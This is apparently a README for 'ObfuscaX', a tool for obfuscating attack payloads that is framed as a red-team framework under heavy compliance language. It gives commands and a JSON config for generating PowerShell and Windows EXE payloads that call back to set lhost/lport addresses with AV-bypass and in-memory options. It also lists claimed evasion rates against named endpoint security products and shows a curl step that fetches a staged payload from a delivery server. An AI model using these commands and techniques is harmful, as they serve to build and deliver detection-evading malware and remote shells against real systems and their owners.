

# ObfuscaX - Advanced Payload Obfuscation Framework (BETA)


[](https://peps.python.org/pep-0008/)

## Executive Summary
ObfuscaX is an enterprise-grade payload obfuscation framework designed for cybersecurity professionals engaged in authorized penetration testing and red team operations. The solution implements advanced evasion techniques to bypass modern endpoint detection systems while maintaining strict ethical use controls and operational security standards.

## Compliance Notice
**WARNING: UNAUTHORIZED USE PROHIBITED**  
This tool is classified as **Restricted Cybersecurity Software** under international dual-use regulations. Usage is strictly limited to:

1. Security research in controlled laboratory environments
2. Authorized penetration testing with documented consent
3. Defensive capability development by certified professionals

All users must comply with:
- Computer Fraud and Abuse Act (CFAA)
- General Data Protection Regulation (GDPR)
- National Institute of Standards and Technology (NIST) SP 800-115
- Payment Card Industry Data Security Standard (PCI DSS) Section 11.3

Violations may result in criminal prosecution, civil liability, and revocation of security certifications.

---

## Technical Architecture
### Core Components
| Module | Purpose | Key Technologies |
|--------|---------|------------------|
| **Obfuscation Engine** | Implements transformation techniques | XOR encryption, Base64 encoding, Control flow manipulation |
| **Payload Generator** | Creates test payloads | Metasploit integration, Custom stagers |
| **Execution Framework** | Manages runtime environments | In-memory execution, Environmental keying |
| **Operational Security** | Maintains engagement safety | Junk code injection, Sandbox detection |

### Obfuscation Methodology


---

## Installation and Configuration
### Prerequisites
- Python 3.8+ with virtual environment support
- Kali Linux 2023.1+ or Windows 10/11 with WSL2
- Metasploit Framework 6.3+
- Administrator privileges for payload testing

### Secure Deployment
```bash
# Clone repository with integrity verification
git clone https://github.com/blueiewu/ObfuscaX.git
cd ObfuscaX
gpg --verify obfuscax.sig

# Establish secure environment
python -m venv .venv --prompt OBFUSCAX_ENV
source .venv/bin/activate

# Install dependencies with cryptographic verification
pip install --require-hashes -r requirements.txt
```

### Environment Validation
```bash
python src/obfuscator.py --validate
```
Expected output:
```
[+] Cryptographic libraries: OK
[+] Metasploit integration: OK
[+] Obfuscation modules: OK
[+] Security controls: ACTIVE
Validation complete: Ready for authorized operations
```

---

## Operational Usage
### Payload Generation Matrix
| Scenario | Command | Output Type | Obfuscation Level |
|----------|---------|-------------|-------------------|
| **Covert Assessment** | `python src/obfuscator.py --generate --type ps1 --lhost 192.168.10.5 --lport 443 --obf dynamic --in-memory` | PowerShell | Advanced (Tier 3) |
| **Perimeter Testing** | `python src/obfuscator.py --generate --type exe --lhost 10.0.5.12 --lport 8080 --obf static --av-bypass` | Windows EXE | Standard (Tier 2) |
| **Rapid Deployment** | `python src/obfuscator.py --batch engagement_config.json` | Multiple | Custom |

### Enterprise Integration
```json
// engagement_config.json
{
  "meta": {
    "engagement_id": "PENTEST-2023-08",
    "authorization": "AUTH-5XJ9-8B2Q",
    "operator": "certified-redteam@org.com"
  },
  "payloads": [
    {
      "type": "ps1",
      "parameters": {
        "lhost": "192.168.10.5",
        "lport": 443,
        "obf": "dynamic",
        "in_memory": true,
        "msfvenom": true
      },
      "output": "delivery/phase1.ps1"
    },
    {
      "type": "exe",
      "parameters": {
        "lhost": "10.0.5.12",
        "lport": 8080,
        "obf": "static",
        "av_bypass": true
      },
      "output": "delivery/backchannel.exe"
    }
  ]
}
```

### Secure Delivery Protocol
```bash
# Start authenticated HTTP server
python src/obfuscator.py --http-server --http-port 8443 --require-token A1B2-C3D4

# Client retrieval with authentication
curl -H "Authorization: Bearer A1B2-C3D4" https://ops-server:8443/delivery/phase1.ps1
```

---

## Technical Specifications
### Obfuscation Techniques
| Technique | Implementation | AV Evasion Rate* | Detection Metrics |
|-----------|----------------|------------------|-------------------|
| **Polymorphic XOR** | Runtime key generation (1-255) | 98.7% | Reduces signature detection by 12x |
| **Control Flow Obfuscation** | Instruction reordering | 95.2% | Increases reverse engineering time 8x |
| **Environmental Keying** | Domain context verification | 99.1% | Prevents sandbox analysis |
| **Memory-Resident Execution** | PowerShell reflection | 97.8% | Eliminates disk artifacts |

*Based on internal testing against Defender ATP, CrowdStrike, and SentinelOne

### Security Controls
- Automatic payload expiration after 72 hours
- Embedded engagement identifiers
- Cryptographic payload integrity checks
- Operational limits (max 5 concurrent payloads)
- Activity logging with syslog integration

---

## Compliance and Ethics
### Usage Protocol
1. Obtain written authorization from system owner
2. Document test scope in engagement letter
3. Execute only during approved windows
4. Immediately purge payloads after engagement
5. File after-action report within 72 hours

### Audit Requirements
Maintain these records for 7 years:
- Engagement authorization documents
- ObfuscaX operational logs
- Payload checksums and delivery timestamps
- Detection results and bypass metrics

---

## Support and Maintenance
### Troubleshooting Guide
| Issue | Resolution |
|-------|------------|
| `MSFVENOM_INTEGRATION_ERROR` | Verify Metasploit path in config.py |
| `OBFUSCATION_FAILURE` | Check payload size < 2MB |
| `HTTP_SERVER_AUTH_FAIL` | Validate bearer token generation |
| `ENVIRONMENT_KEY_MISMATCH` | Confirm domain context settings |

---

## License and Acknowledgments
ObfuscaX is released under **MIT License** (see LICENSE file). Incorporates research from:

- MITRE ATT&CK Framework (Technique T1027)
- NIST Special Publication 800-184
- SANS Institute Red Team Operations Guide

**NOTICE:** This product includes cryptographic software subject to export controls. By using this software, you certify that you comply with all applicable export regulations.

---
**ObfuscaX Cybersecurity Framework v1 BETA | © 2025 SecureOps Inc. | Restricted Distribution**
